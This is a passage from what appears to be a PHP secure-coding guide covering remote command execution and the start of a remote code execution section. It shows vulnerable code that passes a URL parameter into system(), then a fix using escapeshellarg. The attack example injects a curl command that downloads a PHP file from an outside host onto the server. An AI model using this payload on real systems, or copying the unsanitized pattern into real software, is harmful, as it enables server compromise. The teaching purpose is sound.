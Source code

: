 ## 5) Remote Command Execution

#### Affected PHP Functions
- exec
- passthru
- system
- shell_exec
- `` (backticks)
- popen
- proc_open
- pcntl_exec

#### Vulnerable Code

**upload_picture.php**
```php
<?php
$user_id = $_GET['user_id'];
$path = dirname(__FILE__).'/'.$user_id;
if (!file_exists($path)){
	system('mkdir '.$path);
}
// upload picture
?>
```
#### Attack
- Pass arguments with || or && then system commands
	- http://localhost/command/upload_picture.php?user_id=1 || curl -K https://raw.githubusercontent.com/vinothzomato/zpwned/master/lfd/download_invoice.php -o test.php

#### How to fix
- Use escapeshellarg() and escapeshellcmd()

**upload_picture_fixed.php**
```php
<?php
$user_id = $_GET['user_id'];
$path = dirname(__FILE__).'/'.$user_id;
if (!file_exists($path)){
	system('mkdir '.escapeshellarg($path));
}
// upload picture
?>
```

## 6) Remote Code Execution

#### Affected PHP Functions
- eval
- assert
- preg_replace // with /e in regex
- create_function
- $$, extract & parse_str with one parameter
- dynamic function
- ReflectionFunction
- unserialize
- functions with callbacks for example (array_map, usort, ob_start & preg_replace_callback etc)
